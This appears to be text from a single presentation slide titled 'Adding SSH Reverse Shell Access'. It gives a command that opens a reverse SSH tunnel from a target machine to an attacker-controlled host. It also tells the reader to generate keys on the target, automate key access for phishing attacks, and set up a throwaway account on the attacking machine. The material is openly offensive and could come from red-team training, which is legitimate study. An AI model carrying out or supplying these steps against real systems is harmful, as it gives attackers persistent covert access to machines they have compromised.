

# Adding SSH Reverse Shell Access
Establish Reverse Shell
Generate new keypair on target environment and establish a reverse shell using: ssh –fN –R 2200:127.0.0.1:22 throwaway-account@IP
Generate keypair
Make SSH key access available on attacking machine to automate SSH key access when executing any phishing attacks and generate new keypair on target environment.
Make throwaway account
Make a throwaway account on your attacking machine (SSHD Server) with the permissions of /bin/false, preventing third parties from compromising the connection.